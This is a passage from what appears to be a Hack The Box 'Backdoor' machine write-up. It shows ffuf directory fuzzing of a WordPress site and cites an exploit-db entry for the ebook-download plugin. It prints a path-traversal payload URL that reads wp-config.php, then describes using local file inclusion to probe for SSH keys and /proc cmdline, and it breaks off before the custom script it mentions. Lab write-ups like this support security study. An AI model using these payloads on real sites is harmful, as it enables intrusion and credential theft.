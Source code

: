 
* The `wp-admin` directory lands you to a wordpress login page, I tried cracking the password with rockyou.txt but failed
* The `wp-content` directory had nothing, so I further `ffuf` it go see more directoires in it

**Wp-content**

```bash
└─$ ffuf -w /usr/share/wordlists/dirb/big.txt -u http://backdoor.htb/wp-content/FUZZ -c 
    
________________________________________________

 :: Method           : GET
 :: URL              : http://backdoor.htb/wp-content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 325, Words: 20, Lines: 10]
themes                  [Status: 301, Size: 324, Words: 20, Lines: 10]
upgrade                 [Status: 301, Size: 325, Words: 20, Lines: 10]
uploads                 [Status: 301, Size: 325, Words: 20, Lines: 10]

:: Progress: [20469/20469] :: Job [1/1] :: 160 req/sec :: Duration: [0:02:14] :: Errors: 0 ::
```

*   The plugins directory is quiet intresting

    ![image](https://user-images.githubusercontent.com/56447720/142757950-719f874f-6535-4605-a28b-2d8c2b988e83.png)
* After messing around on web I found this exploit link : https://www.exploit-db.com/exploits/39575
* Payload : `http://backdoor.htb/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php`

![image](https://user-images.githubusercontent.com/56447720/142758211-612714fb-2d69-4f5e-ad67-a407a82a4e3f.png)

![image](https://user-images.githubusercontent.com/56447720/142758317-b4f84315-4750-4047-be22-03e1e0200fa3.png)

### Iniital Foothold

* I tried getting the `id_rsa` with LFI but the `user` directory didn't have any ssh keys
* The port 1337 had `?waste` service which nmap said ( NOTE : `?waste` wasn't the service running on port 1337 )
* Let's check what service that port had
* I read the man page for proc and found `/cmdline` intresting which tells sumary about a service
* Man page of `proc` : https://man7.org/linux/man-pages/man5/proc.5.html
* I didn't found any exploits that shows services , so I made one
